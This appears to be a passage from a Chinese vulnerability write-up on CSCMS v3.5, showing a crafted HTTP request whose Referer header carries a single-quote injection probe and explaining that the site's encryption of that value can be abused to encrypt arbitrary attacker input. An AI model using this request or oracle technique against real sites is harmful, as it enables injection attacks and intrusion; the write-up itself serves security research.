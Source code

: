 
我们提交如下，看一下，程序加密后的字符。

```
GET /cscms_v3.5_utf8/index.php/open/login/qq HTTP/1.1

Host: **.**.**.**

User-Agent: Mozilla/5.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en

Accept-Encoding: gzip,deflate

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7

Keep-Alive: 115

Connection: keep-alive

Referer: xxoo' 
```

![](img/221535358221a993c7c33c8dda02005985399df2.jpg)

可以看到加密后的字符：log_fhurl=L8kxDzdqKNy9%2F2Qs0g

利用这个功能，加密我们想要的任意代码。
